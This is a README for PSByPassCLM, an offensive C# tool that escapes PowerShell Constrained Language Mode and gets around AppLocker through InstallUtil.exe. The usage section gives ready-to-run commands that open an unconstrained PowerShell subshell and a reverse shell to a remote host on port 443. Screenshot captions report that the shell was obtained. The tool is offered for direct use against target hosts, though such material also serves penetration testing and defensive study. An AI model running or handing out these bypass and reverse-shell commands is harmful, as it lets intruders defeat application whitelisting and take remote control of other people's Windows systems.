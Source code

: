 # PSByPassCLM
Bypass for PowerShell Constrained Language Mode

## Description and references 
This technique might come in handy wherever or whenever you're stuck in a low privilege PS console  
and PowerShell Version 2 engine is not available to perform a [PowerShell Downgrade Attacks](http://www.leeholmes.com/blog/2017/03/17/detecting-and-preventing-powershell-downgrade-attacks/).

What described above may happen in [modern] Windows OSes (like Windows 10, Windows Server 2016..),  
that nowdays are shipped out with AppLocker and PowerShell Version 5 (v5).

With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools.  
Imho, not beeing able to use core language functionalities (eg, load script in memory and so on..) it's a such a pain.

"PowerShell v5 detects when AppLocker Allow mode is in effect and sets the PowerShell language to Constrained Mode,  
severely limiting the attack surface on the system.  
With AppLocker in Allow mode and PowerShell running in Constrained Mode, it is not possible for an attacker  
to change the PowerShell language mode to full in order to run attack tools." [[Source]](https://adsecurity.org/?p=2604)
 
## Build the binary
The project is written in C#. All the source (few lines of codes though) is committed: .csproj, .sln ...  
You should be able to easily compile and build the binary with the default configuration Debug/X64.

## Usage
Well, nothing new here as we're going to use the old and well-known trick of "InstallUtil.exe" to bypass AppLocker.
Once you've compiled the binary, issue the below command on the target host.  
Besides, your binary doesn't have to be an "exe" as InstallUtil.exe parse any file type (.txt, .bin....)

This one opens a subshell in the current console
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /U c:\temp\psby.exe
```

This one tries to open a PS reverse shell (I've bound it into the source as a life saver :-) ..)
```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=10.10.13.206 /rport=443 /U c:\temp\psby.exe
```

## Testing
Tested on the following environment  (Windows Server 2016)
![Screenshot](img/clm01.JPG?raw=true)

![Screenshot](img/clm02.JPG?raw=true)

PS process in current console
![Screenshot](img/clm03.JPG?raw=true)

Trying to open PS reverse shell
![Screenshot](img/clm04.JPG?raw=true)

Got the shell
![Screenshot](img/clm05.JPG?raw=true)


## Useful Links
https://blogs.msdn.microsoft.com/powershell/2017/11/02/powershell-constrained-language-mode/  
https://adsecurity.org/?p=2604  
https://pentestn00b.wordpress.com/2017/03/20/simple-bypass-for-powershell-constrained-language-mode/  
https://blog.stealthbits.com/how-attackers-are-bypassing-powershell-protections/  
https://decoder.cloud/2017/11/17/we-dont-need-powershell-exe-part-3/  


## Author
This code is developed by Chris D. [@padovah4ck](https://twitter.com/padovah4ck) // [LinkedIn](https://www.linkedin.com/in/chrisdanieli/) //   
Use it at your own risk. No responsability on my side
